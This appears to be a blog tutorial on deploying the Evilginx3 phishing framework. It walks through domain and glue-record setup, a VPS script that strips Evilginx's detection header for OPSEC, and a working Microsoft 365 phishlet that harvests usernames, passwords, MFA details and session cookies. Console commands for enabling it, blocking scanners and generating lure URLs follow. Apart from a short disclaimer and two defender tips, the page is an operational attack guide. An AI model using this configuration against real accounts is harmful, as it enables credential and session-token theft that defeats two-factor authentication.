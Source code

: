 ```yaml
---
title: "How to Set Up Evilginx3"
date: 2023-07-16
description: "Quick tutorial on how to set up evilginx3 phishing framework"
summary: "Quick tutorial on how to set up evilginx3 phishing framework"
tags: ["phishing"]
---
```


## What is Evilginx?

Evilginx is a tool created by security researcher [Kuba Gretzky](https://twitter.com/mrgretzky), designed for advanced phishing attacks.

As per the [GitHub page](https://github.com/kgretzky/evilginx2):

> Evilginx is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.

> The present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.

Please refer to [documentation](https://help.evilginx.com/) and consider signing up for the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery) to learn how to build custom / advanced phishlets.

It's important to note that phishing is illegal and unethical without proper authorization. This information is provided for educational purposes only, and I strongly discourage any misuse or illegal activities.

## Domain Setup

![michaelsoft](/images/evilginx3/michaelsoft.png)

The domain setup process is fairly simple, but will depend on the domain registrar you use. Here's a general overview of how it typically works:

* **Domain Registration**: Register a domain name for your phishing campaign.
* **DNS Configuration**: After registering the domain, you need to configure the domain's DNS settings. Evilginx will act the DNS resolver, so you don't need to manually add "A" records for your phishing domain / subdomains yourself. Instead you will change the glue records for your domain. **Note**: this is not supported by all domain registrars. 

A glue record contains the IP address of a nameserver, enabling the resolution of a domain when the nameserver is hosted within the same domain. For example, if the domain "example.com" has the nameserver "ns1.example.com", a glue record would provide the necessary IP address for the "ns1.example.com" nameserver to be correctly resolved.

Using Godaddy for example (not an endorsement), with a fake domain `michaelsoft.com` and assuming Evilginx is externally accessible via the following IP address `3.105.197.139`:
	
**Create hostname records**:
	
![godaddy-hostname](/images/evilginx3/godaddy-hostname.png)
	
**Change the nameserver**:

![godaddy-nameserver](/images/evilginx3/godaddy-nameserver.png)


## Virtual Private Server Setup

The steps to configure an external phishing host with evilginx is already well [documented](https://help.evilginx.com/docs/getting-started/deployment/remote), so I have created the following bash script to automate this step. 

Keep in mind the following:

* This script is intended to be run on a fresh ubuntu linux host (I have not tested it on any other OS)
* You may want to update the version of golang (don't forget to update the checksum too)
* You may want to use a different terminal multiplexer (tmux instead of byobu)
* OPSEC: I have removed the lines of source code responsible for setting the `X-Evilginx header` - this may change in future releases of evilginx
* You will need to configure firewall rules to allow inbound connections for HTTPS and DNS traffic


{{< gist dunderhay d5fcded54cc88a1b7e12599839b6badb >}}


## Evilginx3 Configuration

You should now be able to create your own phishlets in `/home/ubuntu/evilginx/phishlets` such as the following `m365.yaml` phishlet for targeting Microsoft 365. More information on the phishlet format for v.3.0.0 and above can be found [here](https://help.evilginx.com/docs/phishlet-format).

```yaml
name: 'Microsoft 365'
min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true, auto_filter: true}
  - {phish_sub: 'account', orig_sub: 'account', domain: 'microsoft.com', session: false, is_landing: false, auto_filter: true}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing: false, auto_filter: true}
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoft.com', session: false, is_landing: false, auto_filter: true}
auth_tokens:
  - domain: '.login.microsoftonline.com'
    keys: ['ESTSAUTH:always', 'ESTSAUTHPERSISTENT', 'SignInStateCookie:always']
    type: 'cookie'
credentials:
  username:
    key: '(login|UserName)'
    search: '(.*)'
    type: 'post'
  password:
    key: '(passwd|Password|accesspass)'
    search: '(.*)'
    type: 'post'
  custom:
    - key: 'mfaAuthMethod'
      search: '(.*)'
      type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/?auth=2'
```

After starting Evilginx, you can set the required values:

```
config domain <your-phishing-domain>
config ipv4 external <your-vps-ipaddress>
```

It is recommended to prevent access from unauthorised prying eyes / scanners:

```
blacklist unauth
```

I also recommend changing the `redirect_url` from the default rick roll to something a little less obvious:

```
config redirect_url https://example.com
```

Configure the phishlet and lure:

```
phishlets hostname m365 <your-phishing-domain>
phishlets enable m365
lures create m365
lures get-url 0
```

The lure URL can be modified to fit your pretext, type `help lures` to get more info on what you can change.

There is a lot to cover when it comes to creating custom phishlets which is best covered in the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery) material. 


## Tips for Defenders

* Perform location validation
* Perform secret token validation

Both of these topics are covered in the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery). 

